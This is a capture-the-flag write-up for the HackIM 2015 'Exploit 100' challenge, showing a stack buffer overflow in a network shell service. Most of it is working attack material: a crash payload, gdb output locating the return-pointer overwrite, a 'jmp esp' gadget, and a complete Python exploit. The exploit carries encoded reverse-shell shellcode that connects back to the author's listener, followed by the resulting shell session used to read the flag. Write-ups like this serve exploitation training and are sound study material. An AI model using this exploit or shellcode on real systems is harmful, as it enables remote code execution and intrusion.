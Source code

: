 ```yaml
---
layout: post
title: "HackIM 2015 Exploit 100"
date: 2015-01-11 18:04:11 -0500
author: [superkojiman]
comments: true
categories: [hackim]
---
```


### Solved by superkojiman

A relatively straightforward buffer overflow. The shell asks for a command, and that command is "echo" followed by our input. Any unrecognized commands returns an error: 

```
# nc localhost 9000
fash$ help
Error - unsupported command

# nc localhost 9000
fash$ echo AAAAA
echo: AAAAA
```
We can overflow return pointer in function 0x8048908 when sprintf() is used to copy our input to a buffer. We need to send 118 bytes of junk, followed by the overwrite to the saved return pointer: 

```
# nc localhost 9000
fash$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

No message is returned to us since we've crashed it. We can examine the dumped core:

```
# gdb -q -c core
[New LWP 9398]
Core was generated by `./srv'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Return pointer has been overwritten. We don't control any of the registers, but esp contains our string of "C"s:

```
gdb-peda$ x/40wx $esp
0xbfffd2a0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2b0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2c0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2d0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2e0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2f0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd300: 0x43434343  0x00000a0a  0x00000000  0x00000000
0xbfffd310: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfffd320: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfffd330: 0x00000000  0x00000000  0x00000000  0x00000000
```

Using msfelfscan, we can find a "jmp esp" instruction:

```
# msfelfscan -j esp srv
[srv]
0x080488b0 jmp esp
```

The binary has no NX or canary so we can execute our shellcode on the stack. Here's the final exploit that uses a reverse shell to connect back to us: 

```python
import socket, struct

ip = "54.163.248.69"
port = 9000


# [*] x86/shikata_ga_nai succeeded with size 95 (iteration=1)
shellcode = (
"\x90"*20 +

"\xbe\x6e\x3c\xa7\x19\xd9\xc0\xd9\x74\x24\xf4\x5b\x29\xc9" +
"\xb1\x12\x83\xc3\x04\x31\x73\x0e\x03\x1d\x32\x45\xec\xd0" +
"\x91\x7e\xec\x41\x65\xd2\x99\x67\xe0\x35\xed\x01\x3f\x35" +
"\x9d\x94\x0f\x09\x6f\xa6\x39\x0f\x96\xce\xd1\x6c\x90\x29" +
"\x4a\x71\x61\x34\x31\xfc\x80\x86\x23\xaf\x13\xb5\x18\x4c" +
"\x1d\xd8\x92\xd3\x4f\x72\x02\xfb\x1c\xea\x34\x2c\x81\x83" +
"\xaa\xbb\xa6\x01\x60\x35\xc9\x15\x8d\x88\x8a"
)

buf =  "A"*118
buf += struct.pack("<I", 0x080488b0)    # ret addr: jmp esp
buf += shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

print s.recv(1024)
s.send("echo " + buf)
print s.recv(1024)
```

Running the exploit gives us a shell on the target: 

```text
root@vulnhub:~# nc -lvp 443
listening on [any] 443 ...
connect to [104.131.248.39] from ec2-54-163-248-69.compute-1.amazonaws.com [54.163.248.69] 56033
id
/bin//sh: 1: id: not found
```

We have a weird shell, but we can read files using bash: 

```
echo *
bin etc flag.txt lib srv
```

flag.txt contains our flag. Let's read it:

```
while read line; do echo $line; done < flag.txt
aleph1-to-the-rescue++
```

The flag is **aleph1-to-the-rescue++**

